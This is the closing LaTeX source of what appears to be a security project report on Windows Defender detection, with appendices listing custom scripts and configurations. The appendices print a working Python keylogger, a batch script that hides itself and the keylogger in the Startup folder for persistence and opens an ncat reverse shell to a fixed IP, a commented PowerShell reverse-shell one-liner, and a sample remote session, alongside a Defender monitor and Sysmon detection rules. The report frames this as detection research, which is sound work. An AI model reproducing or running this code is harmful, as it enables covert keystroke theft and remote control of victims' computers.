		\bibitem{mitreT1053} MITRE ATT\&CK. \textit{Technique T1053: Scheduled Task/Job}. Retrieved from \url{https://attack.mitre.org/techniques/T1053/}
		\bibitem{msftsysinternals} Microsoft. \textit{Sysinternals Utilities Index}. Retrieved from \url{https://learn.microsoft.com/en-us/sysinternals/}
		\bibitem{msftdefenderendpoint} Microsoft. \textit{Microsoft Defender for Endpoint}. Retrieved from \url{https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/}
		\bibitem{elasticsecurity} Elastic. \textit{Elastic Security}. Retrieved from \url{https://www.elastic.co/security}
		
		\bibitem{logcompfig} \textit{log_completeness_stacked.pdf} [Provided figure].
		\bibitem{visheatfig} \textit{visibility_heatmap.pdf} [Provided figure].
		\bibitem{detratefig} \textit{detection_rate_bars.pdf} [Provided figure].
		\bibitem{defresfig} \textit{defender_resource_usage.pdf} [Provided figure].
		
		\bibitem{SysinternalsPslist} Microsoft. \textit{PsList - Sysinternals}. Retrieved from \url{https://learn.microsoft.com/en-us/sysinternals/downloads/pslist}
		\bibitem{wevtutil} Microsoft. \textit{Wevtutil overview}. Retrieved from \url{https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil}
		\bibitem{Tshark} Wireshark Foundation. \textit{TShark - Command-line network protocol analyzer}. Retrieved from \url{https://www.wireshark.org/docs/man-pages/tshark.html}
		\bibitem{SysmonDoc} Microsoft. \textit{Sysmon - Sysinternals}. Retrieved from \url{https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon}
		
	\end{thebibliography}
	\newpage
	
	% --- APPENDICES (OPTIONAL) ---
	\appendix
	\section{Source Code for Custom Scripts}
	\subsection{keylog.py}
	\begin{minted}[linenos,fontsize=\footnotesize,frame=lines,breaklines,tabsize=4]{python}
		from pynput import keyboard
		import os # For creating log directory
		
		LOG_DIR = "logs"
		LOG_FILE = os.path.join(LOG_DIR, "key.txt")
		
		def ensure_log_dir():
		if not os.path.exists(LOG_DIR):
		os.makedirs(LOG_DIR)
		
		def on_press(key):
		text = ""
		# ... (rest of your on_press logic) ...
		if key == keyboard.Key.enter:
		text += "\n"
		elif key == keyboard.Key.tab:
		text += "\t"
		elif key == keyboard.Key.space:
		text += " "
		elif key == keyboard.Key.shift_l or key == keyboard.Key.shift_r or \
		key == keyboard.Key.alt_l or key == keyboard.Key.alt_r or \
		key == keyboard.Key.cmd or key == keyboard.Key.cmd_r: # Mac keys
		pass # Ignore modifier keys themselves
		elif key == keyboard.Key.backspace:
		# This logic is tricky if 'text' is local to on_press
		# For simplicity, we'll just log "[BACKSPACE]"
		text += "[BACKSPACE]"
		elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
		pass
		elif key == keyboard.Key.esc:
		return False # Stop listener
		else:
		try:
		text += str(key.char) # For regular character keys
		except AttributeError:
		text += f"[{str(key).split('.')[-1].upper()}]" # For special keys like Key.space
		
		if text: # Only write if there's something to log
		try:
		with open(LOG_FILE, "a+") as file:
		file.write(text)
		except Exception as e:
		# In a real scenario, consider how to handle logging errors silently
		# print(f"Error writing to keylog: {e}") 
		pass
		
		if __name__ == "__main__":
		ensure_log_dir()
		with keyboard.Listener(on_press=on_press) as listener:
		try:
		listener.join()
		except Exception as e:
		# print(f"Error with listener: {e}")
		pass
	\end{minted}
	\captionof{listing}{keylog.py - Python Keylogger}
	Source: Provided `keylog.py` file (with minor illustrative enhancements).
	
	\subsection{cmd\_commands.txt}
	\begin{minted}[linenos,fontsize=\footnotesize,frame=lines,breaklines,tabsize=4,escapeinside=||]{batch}
		:: from receiver side please write nc -lvnp port number 
		
		@echo off
		:: Target Startup Folder for persistence
		SET STARTUP_DIR="%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
		SET SCRIPT_NAME="%~nx0"
		SET KEYLOG_SCRIPT_NAME="keylog.py"
		SET KEYLOG_STARTUP_PATH="%STARTUP_DIR%\%KEYLOG_SCRIPT_NAME%"
		SET BATCH_STARTUP_PATH="%STARTUP_DIR%\%SCRIPT_NAME%"
		SET NMAP_INSTALL_DIR="%ProgramFiles%\Nmap"
		SET NCAT_PATH="%NMAP_INSTALL_DIR%\ncat.exe"
		SET LOG_DIR="C:\Temp\ProjectLogs" || Rem Using a fixed path for logs for simplicity ||
		
		:: Create log directory if it doesn't exist
		if not exist %LOG_DIR% mkdir %LOG_DIR%
		
		:: Check if already persistent and keylogger is running
		if exist %BATCH_STARTUP_PATH% (
		echo [%TIME%] Already persistent. Ensuring keylogger is running. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "cd %STARTUP_DIR% & python %KEYLOG_SCRIPT_NAME% >> %LOG_DIR%\keylog_output.log 2>>&1 & attrib +h %KEYLOG_SCRIPT_NAME%"
		) else (
		echo [%TIME%] First run. Setting up persistence and tools. >> %LOG_DIR%\cmd_execution.log
		
		:: Silently attempt to install Nmap using WinGet if ncat.exe is not found
		if not exist %NCAT_PATH% (
		echo [%TIME%] Ncat not found. Attempting to install Nmap via WinGet. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "curl -o AppInstaller.msixbundle https://aka.ms/getwinget & winget install Insecure.Nmap --accept-package-agreements --accept-source-agreements --silent & attrib +h "AppInstaller.msixbundle""
		echo [%TIME%] Nmap installation initiated. May take time. >> %LOG_DIR%\cmd_execution.log
		) else (
		echo [%TIME%] Ncat found at %NCAT_PATH%. >> %LOG_DIR%\cmd_execution.log
		)
		
		:: Copy batch script and keylogger to Startup for persistence
		echo [%TIME%] Copying scripts to Startup: %STARTUP_DIR% >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "xcopy /H /Y "%~dpnx0" %STARTUP_DIR% & attrib +h %BATCH_STARTUP_PATH% & xcopy /H /Y "keylog.py" %STARTUP_DIR% & attrib +h %KEYLOG_STARTUP_PATH%"
		
		:: Initial run of the keylogger
		echo [%TIME%] Starting keylogger for the first time. >> %LOG_DIR%\cmd_execution.log
		start /min cmd /c "cd %STARTUP_DIR% & python %KEYLOG_SCRIPT_NAME% >> %LOG_DIR%\keylog_output.log 2>>&1"
		)
		
		:: Start reverse shell using ncat if found, otherwise fallback (conceptual)
		echo [%TIME%] Attempting to start reverse shell. >> %LOG_DIR%\cmd_execution.log
		if exist %NCAT_PATH% (
		start /min cmd /c "%NCAT_PATH% 172.20.10.15 12345 -e cmd.exe"
		) else (
		echo [%TIME%] Ncat not available for reverse shell. >> %LOG_DIR%\cmd_execution.log
		:: PowerShell reverse shell as a fallback (more likely to be detected by AMSI)
		:: powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('172.20.10.15',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%|{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
		)
	\end{minted}
	\captionof{listing}{cmd\_commands.txt - Batch Script for Automation}
	Source: Provided `cmd_commands.txt` file (with illustrative enhancements for robustness and logging).
	
	\subsection{activity\_logger.py}
	\begin{minted}[linenos,fontsize=\footnotesize,frame=lines,breaklines,tabsize=4]{python}
		import psutil
		import time
		import matplotlib.pyplot as plt
		import os
		import csv # For CSV output
		
		# Process name for Windows Defender Antimalware Service Executable
		DEFENDER_PROCESS_NAME = "MsMpEng.exe" 
		# Fallback if MsMpEng.exe is not found, though SecurityHealthService.exe has a different role
		FALLBACK_PROCESS_NAME = "SecurityHealthService.exe" 
		
		LOG_DIR = "logs" # Centralized log directory
		CSV_FILENAME = os.path.join(LOG_DIR, "defender_usage.csv")
		PLOT_FILENAME = os.path.join(LOG_DIR, "defender_resource_usage_plot.png")
		
		def ensure_log_dir():
		if not os.path.exists(LOG_DIR):
		os.makedirs(LOG_DIR)
		
		def get_process_info(process_name_primary, process_name_fallback):
		for proc in psutil.process_iter(['pid', 'name', 'cpu_percent', 'memory_info']):
		if proc.info['name'] == process_name_primary:
		return proc
		# Fallback if primary not found
		for proc in psutil.process_iter(['pid', 'name', 'cpu_percent', 'memory_info']):
		if proc.info['name'] == process_name_fallback:
		print(f"Primary process {process_name_primary} not found, using {process_name_fallback}.")
		return proc
		return None
		
		def main(monitor_duration=60, interval=2, csv_output=True):
		ensure_log_dir()
		
		timestamps = []
		cpu_usages = []
		memory_usages_mb = []
		
		headers = ["Timestamp", "CPU_Usage_Percent", "Memory_Usage_MB"]
		if csv_output:
		with open(CSV_FILENAME, 'w', newline='') as f:
		writer = csv.writer(f)
		writer.writerow(headers)
		
		print(f"Monitoring Windows Defender ({DEFENDER_PROCESS_NAME} / {FALLBACK_PROCESS_NAME})... for {monitor_duration}s")
		start_time = time.time()
		
		# Initial call to cpu_percent to establish baseline (interval is used here)
		target_proc = get_process_info(DEFENDER_PROCESS_NAME, FALLBACK_PROCESS_NAME)
		if target_proc:
		target_proc.cpu_percent(interval=0.1) # Initialize cpu_percent calculation
		
		try:
		while time.time() - start_time < monitor_duration:
		current_loop_time = time.time()
		target_proc = get_process_info(DEFENDER_PROCESS_NAME, FALLBACK_PROCESS_NAME) # Re-check in case process restarts
		
		if target_proc:
		cpu = target_proc.cpu_percent(interval=None) # Use None for subsequent calls
		mem_info = target_proc.memory_info()
		mem_rss_mb = mem_info.rss / (1024 * 1024) # Resident Set Size in MB
		
		timestamp_val = current_loop_time 
		
		timestamps.append(timestamp_val)
		cpu_usages.append(cpu)
		memory_usages_mb.append(mem_rss_mb)
		
		current_time_str = time.strftime('%Y-%m-%d %H:%M:%S', time.localtime(timestamp_val))
		print(f"[{current_time_str}] CPU: {cpu:.2f}%, Memory: {mem_rss_mb:.2f} MB")
		
		if csv_output:
		with open(CSV_FILENAME, 'a', newline='') as f:
		writer = csv.writer(f)
		writer.writerow([current_time_str, f"{cpu:.2f}", f"{mem_rss_mb:.2f}"])
		else:
		current_time_str = time.strftime('%Y-%m-%d %H:%M:%S')
		print(f"[{current_time_str}] Defender process not found.")
		timestamps.append(current_loop_time)
		cpu_usages.append(0) 
		memory_usages_mb.append(0)
		if csv_output:
		with open(CSV_FILENAME, 'a', newline='') as f:
		writer = csv.writer(f)
		writer.writerow([current_time_str, "0.00", "0.00"]) # Log as zero if not found
		
		# Accurate sleep interval
		time_to_sleep = interval - (time.time() - current_loop_time)
		if time_to_sleep > 0:
		time.sleep(time_to_sleep)
		
		except KeyboardInterrupt:
		print("Monitoring stopped by user.")
		except Exception as e:
		print(f"An error occurred: {e}")
		finally:
		if timestamps:
		plt.figure(figsize=(12, 8))
		time_labels = [time.strftime('%H:%M:%S', time.localtime(ts)) for ts in timestamps]
		
		plt.subplot(2, 1, 1)
		plt.plot(time_labels, cpu_usages, label=f'CPU Usage (%)', color='red', marker='o', linestyle='-')
		plt.title(f'{DEFENDER_PROCESS_NAME} Resource Usage Over Time')
		plt.ylabel('CPU (%)')
		plt.xticks(rotation=45, ha="right")
		plt.legend()
		plt.grid(True, linestyle='--', alpha=0.7)
		
		plt.subplot(2, 1, 2)
		plt.plot(time_labels, memory_usages_mb, label=f'Memory Usage (MB)', color='blue', marker='x', linestyle='-')
		plt.xlabel('Time')
		plt.ylabel('Memory (MB)')
		plt.xticks(rotation=45, ha="right")
		plt.legend()
		plt.grid(True, linestyle='--', alpha=0.7)
		
		plt.tight_layout(rect=[0, 0.03, 1, 0.95])
		plt.savefig(PLOT_FILENAME)
		print(f"Plot saved to {PLOT_FILENAME}")
		# plt.show() 
		else:
		print("No data collected to plot.")
		
		if __name__ == "__main__":
		# Example: python activity_logger.py --duration 120 --interval 5 --enable_csv
		# For simplicity, hardcoding for now, but you can add argparse
		main(monitor_duration=60, interval=2, csv_output=True)
	\end{minted}
	\captionof{listing}{activity\_logger.py - Windows Defender Resource Monitor}
	Source: Provided `activity_logger.py` file (with illustrative enhancements for CSV output, better process finding, and logging).
	
	\section{Artifact Excerpts & Configurations}
	\subsection{C2 Session Transcript Example (`C2_session.log`)}
	\label{app:c2_transcript}
	Below is a hypothetical excerpt from a successful Ncat reverse shell session:
	\begin{verbatim}
		Listening on [0.0.0.0] (family 0, port 12345)
		Connection from [VICTIM_IP_ADDRESS] port XXXXX received!
		Microsoft Windows [Version 10.0.XXXXX.XXXX]
		(c) Microsoft Corporation. All rights reserved.
		
		C:\Users\VictimUser\Documents>whoami
		victim-pc\victimuser
		
		C:\Users\VictimUser\Documents>dir
		Volume in drive C has no label.
		Volume Serial Number is XXXX-XXXX
		
		Directory of C:\Users\VictimUser\Documents
		
		05/10/2024  03:45 PM    <DIR>          .
		05/10/2024  03:45 PM    <DIR>          ..
		...
		0 File(s)              0 bytes
		2 Dir(s)  XX,XXX,XXX,XXX bytes free
		
		C:\Users\VictimUser\Documents>exit
	\end{verbatim}
	This transcript (stored in `C2_session.log`) demonstrates successful remote command execution.
	
	\subsection{Sysmon Configuration Example (`sysmon_config.xml`)}
	\label{app:sysmon_config}
	A comprehensive Sysmon configuration is crucial for detailed logging. Below is a conceptual snippet focusing on process creation and network connections. A full configuration would be more extensive (e.g., from SwiftOnSecurity's Sysmon config).
	\begin{minted}[linenos,fontsize=\footnotesize,frame=lines,breaklines,tabsize=2]{xml}
		<Sysmon schemaversion="4.90">
		<EventFiltering>
		<RuleGroup name="" groupRelation="or">
		<ProcessCreate onmatch="exclude">
		<Image condition="contains">\AppData\Local\Temp</Image>
		</ProcessCreate>
		<ProcessCreate onmatch="include">
		<Rule groupRelation="or">
		</Rule>
		</ProcessCreate>
		</RuleGroup>
		
		<NetworkConnect onmatch="include">
		<Rule groupRelation="or">
		<Image condition="end with">cmd.exe</Image>
		<Image condition="end with">powershell.exe</Image>
		<Image condition="end with">ncat.exe</Image>
		<Image condition="end with">python.exe</Image>
		<Image condition="is">C:\Program Files\Mozilla Firefox\firefox.exe</Image>
		<Image condition="is">C:\Program Files\Google\Chrome\Application\chrome.exe</Image>
		</Rule>
		</NetworkConnect>
		
		<FileCreate onmatch="include">
		<TargetFilename condition="contains">key.txt</TargetFilename>
		<TargetFilename condition="contains">keylog.py</TargetFilename>
		</FileCreate>
		
		<RegistryEvent onmatch="include"> <EventType condition="is">SetValue</EventType>
		<TargetObject condition="contains">CurrentVersion\Run</TargetObject>
		</RegistryEvent>
		
		</EventFiltering>
		</Sysmon>
	\end{minted}
	\captionof{listing}{Sysmon Configuration Snippet (`sysmon_config.xml`)}
	A tailored `sysmon_config.xml` should be used to capture relevant events without excessive noise.
	
	% \section{Detailed Log Excerpts}
	%   % TODO: Add any particularly relevant or lengthy log excerpts here.
	%   % Example: Snippet from Defender_export.csv or Sysmon_export.csv showing a specific detection.
	
\end{document}